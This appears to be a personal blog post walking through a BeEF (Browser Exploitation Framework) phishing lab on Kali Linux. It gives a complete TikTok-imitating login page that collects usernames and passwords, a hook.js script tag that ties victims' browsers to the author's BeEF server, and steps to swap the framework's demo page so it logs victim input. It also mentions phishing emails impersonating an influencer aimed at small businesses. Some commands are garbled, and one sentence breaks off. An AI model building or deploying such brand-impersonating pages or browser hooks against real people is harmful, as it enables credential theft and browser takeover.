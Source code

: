 ```yaml
---
layout: post
title: "Beef XSS"
date: "2023-12-01"
published: true
video: 890690983
---
```


Beef XSS, short for Browser Exploitation Framework, is a powerful tool used by ethical hackers and security professionals to test the vulnerability of web applications. It allows security experts to assess the security of a website by simulating real-world attacks that exploit vulnerabilities in the user's browser.

The primary goal of a Beef XSS attack is to inject malicious scripts into web pages that are then executed by the victim's browser. Unlike traditional XSS attacks, Beef XSS goes beyond stealing cookies or session tokens; it enables attackers to take control of the victim's browser and use it as a platform for launching further attacks.

This guide outlines steps to perform ethical hacking and phishing simulations using Kali Linux, Beef XSS, and VMware. The project involves assessing web application vulnerabilities and simulating phishing attacks.

In the guide we will be going over the following, Beef XSS, changing the Butcher page, and sending my phishing email impersonating a TikTok influencer.
For this example, I will be using kali Linux that I installed onto my MacBook, with the target browser my on VMware.

## I. Setting Up Beef XSS

**Step 1: Beef Install**

***Update the system***  

```markdown
sudo apt-get update && sudo apt-get upgrade 
```
***Install Beef-XSS*** 

```markdown
sudo apt install beef-XSSall Beef XSS “
```

**step 2: config –**

***Open the Beef config.yaml file*** 

```markdown
sudo nano /etc/beef-xss/config.yaml
```
***Update credentials and set the host for HTTP.***

***Save and exit (Ctrl + X, then Y).***

**Step 3:  operating** 

```markdown
Sudo ./ beef
```

After it starts go to the Ui panel a link should appear or it will automatically load for you.

<br>

## II. Phishing Simulation

Now for my example Instead of creating a separate html page and having the target need to open our html page or redirect them to the butcher site, we are going to edit the butcher page to fit our needs and send out a phishing email to ourselves. 

NOTE: because we are editing the butcher page we will be able to log all inputs and activity while the target is on our page we will also be able to send this email to anyone on our network and redirect them to our hook off of beefs already running Apache server.
For my next part I will  be using my already fake phishing emails directed at small business impersonating a tic Tok influencer. 

I asked chat gpt to create me a simple login page similar to TikTok’s for my personal website, it did not disappoint.

```markdown

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tik Tok</title>
    <style>
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background-color: #fff;
            text-align: center;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }

        .login-container {
            max-width: 400px;
            width: 100%;
            padding: 20px;
            box-sizing: border-box;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }

        img {
            width: 100px;
            margin-bottom: 20px;
        }

        input {
            width: 100%;
            padding: 10px;
            margin: 8px 0;
            box-sizing: border-box;
            border: 1px solid #ccc;
            border-radius: 4px;
        }

        button {
            background-color: #00a4ef;
            color: #fff;
            padding: 10px 15px;
            border: none;
            border-radius: 4px;
            cursor: pointer;
            font-size: 16px;
        }

        button:hover {
            background-color: #0077cc;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="tik_tok.jpg" alt="TikTok Logo">
        <h2>Login</h2>
        <form action="your_login_handler.php" method="post">
            <input type="text" id="username" name="username" placeholder="Username" required>
            <input type="password" id="password" name="password" placeholder="Password" required>
            <button type="submit">Log In</button>
        </form>
    </div>
</body>
</html>

```

I currently have the following hook.js script enabling this page to reach out and talk to my beef server the following script gets place inside the head tag on our html page.

```markdown
<script src="http://192.168.4.97:3000/hook.js"></script>
```

Here is the following video on how to add our new page and replace the butcher page.
The process is fairly simple my video is at double speed, with the most important being.

- Use elevated privileges to go into beefs extension directory 

```markdown
sudo su
```
Index.Html in the butcher directory is the page we want to edit the full file path is as follows to get their you need to a super user.

```markdown
Cd /usr/share/beef-xss/extensions/demos/html/butcher
```

Note: There is one script we wish to keep in the index.html page                                            

```markdown
<script src="jquery-1.12.4.min.js"></script>                                                                                       
```
this script handles the events and logs it back to the beef logs monitoring everything we do on our page, The second important part is to remove our address from our own hook.js script in our header because we are now in the root directory and do not need to let beef know were to go. Our new script should look like  

The rest of the video quickly goes over sending the hook to my VMware station from my machine, and shows the same java code being used in the butcher page to log our credentials and monitor our activity while on the page, then runs thru a couple of examples with my fishing email I made for my other project


<br>

<div style="padding:56.25% 0 0 0;position:relative;"><iframe src="https://player.vimeo.com/video/890690983?badge=0&amp;autopause=0&amp;quality_selector=1&amp;player_id=0&amp;app_id=58479" frameborder="0" allow="autoplay; fullscreen; picture-in-picture" style="position:absolute;top:0;left:0;width:100%;height:100%;" title="beef Project - Made with Clipchamp"></iframe></div><script src="https://player.vimeo.com/api/player.js"></script>